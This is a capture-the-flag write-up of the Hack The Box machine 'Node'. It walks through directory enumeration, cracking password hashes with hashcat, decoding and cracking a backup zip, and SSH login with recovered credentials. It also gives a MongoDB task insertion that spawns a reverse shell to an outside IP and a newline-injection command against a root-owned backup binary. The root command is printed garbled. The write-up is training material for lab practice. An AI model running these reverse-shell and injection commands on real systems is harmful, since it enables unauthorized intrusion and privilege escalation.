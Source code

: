 # Node

This is my write-up for the machine on Hack The Box called **Node** located at: [https://app.hackthebox.com/machines/Node](https://app.hackthebox.com/machines/Node).

I started off with an nmap scan:

![](<../../.gitbook/assets/image (344) (1).png>)

We see 2 ports open: one for SSH and one for a software known as hadoop-datanode. Port 3000 has a web server running on it:

![](<../../.gitbook/assets/image (347) (1).png>)

I then ran **dirsearch** using the **directory-list-lowercase-2.3-medium.txt** from the dirbuster wordlist directory to see what folders/files I had access to:

`dirsearch -e php,html,js,cgi,bak,txt -u http://10.10.10.58:3000 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 50`

This showed me the following:

![](<../../.gitbook/assets/image (370) (1).png>)

I read up on [this write-up](https://alamot.github.io/node\_writeup/) which pointed me in the direction of using **burpsuite** in order to see requests incoming. I found one that was interesting and followed it:

![](<../../.gitbook/assets/image (341) (1) (1).png>)

These could be passwords or hashes. I tried the username with the passwords, and this did not work for me. Running the hash for **tom** in **hash-identifier** resulted in the following:

![](<../../.gitbook/assets/image (334) (1).png>)

Running the other hashes resulted in **SHA-256** as well. Using the [hashcat examples website](https://hashcat.net/wiki/doku.php?id=example\_hashes), I then had to find out what the Hash-Mode was:

![](<../../.gitbook/assets/image (345).png>)

Running the hashcat command `hashcat -a 0 -m 1400 hashes rockyou.txt` got me the following:

![](<../../.gitbook/assets/image (348) (1) (1).png>)

It seems that I have cracked the passwords for the users **tom** and **mark**. When I login using those credentials, I get the same result:

![](<../../.gitbook/assets/image (350) (1) (1) (1).png>)

Reading the same write-up from before, I missed the directory above from where I was located at:

![](<../../.gitbook/assets/image (368) (1) (1).png>)

This led me to find a new user: **myP14ceAdm1nAcc0uNT**. I then ran **hashcat** on the new hash (with a new wordlist - not needed, but I just did) and got the following:

![](<../../.gitbook/assets/image (369) (1).png>)

Now we see a different output on the main screen:

![](<../../.gitbook/assets/image (366) (1) (1).png>)

Downloading the backup led me to a large ASCII file:

![](<../../.gitbook/assets/image (363) (1) (1).png>)

I noticed a "**=**" at the end, so I thought it could be base64. Decoding the file led me to a zip folder where the files were password protected:

![](<../../.gitbook/assets/image (367) (1) (1).png>)

Following the write-up mentioned above, I ran the command `cat myplace.backup | base64 -d > backup.zip` in order to make my own zip file. This gave me the same result that I had gotten earlier from using [https://www.base64decode.org/](https://www.base64decode.org) to decode the content of the document for me. I then uploaded zipped file on [this website](https://www.onlinehashcrack.com/tools-zip-rar-7z-archive-hash-extractor.php) and got the following output:

![](<../../.gitbook/assets/image (349) (1).png>)

I will go back to the [example hashes site from hashcat](https://hashcat.net/wiki/doku.php?id=example\_hashes) to see what mode this would be:

![](<../../.gitbook/assets/image (335) (1).png>)

I then ran the hashcat command `hashcat -a 0 -m 17230 pkziphash xato-net-10-million-passwords-1000000.txt` to see if I can crack the password:

![](<../../.gitbook/assets/image (339) (1) (1) (1) (1).png>)

I was then able to decode the zip by running `unzip backup.zip`. This created a new directory called **var** in my local directory. In a file called **app.js**, I found the following:

![](<../../.gitbook/assets/image (351) (1) (1) (1).png>)

I was a bit lost about what to do with these credentials, I then read the same write-up again to find out that those credentials would work for **SSH**:

![](<../../.gitbook/assets/image (352) (1) (1).png>)

I also learned from the write-up to search for processes being run by tom:

![](<../../.gitbook/assets/image (343).png>)

I do not have a lot of experience with mongo commands work. Between the write-up I have been mentioning previously and [this write-up](https://dumbsec.ninja/htb-node-box-writeup.html) for this machine, I ran the following commands:

`mongo localhost:27017/scheduler -u mark -p 5AYRft73VtFpc84k`

`db.tasks.insert({cmd: '/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.14.14/1227 0>&1"'})`

I was then able to get a shell as tom:

![](<../../.gitbook/assets/image (342).png>)

I was then able to read the user.txt:

![](<../../.gitbook/assets/image (336) (1) (1).png>)

From the second write-up (previously mentioned), I learned about the following command, which got me directly to root using the backup process:

/usr/local/bin/backup -q 45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474 $'\n /bin/bash \n' <4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474 $'\n /bin/bash \n'

![](<../../.gitbook/assets/image (346) (1).png>)

I will be honest. I have been looking at write-ups for this machine and they all seem to use buffer overflows in order to crack the command to get to the root user. I am a bit unsure how the previous command I used to get to root worked. From my understanding, it seems that the backup process was owned by root, and using the backup key, I was able to run the command. Again, not why why this command exactly.
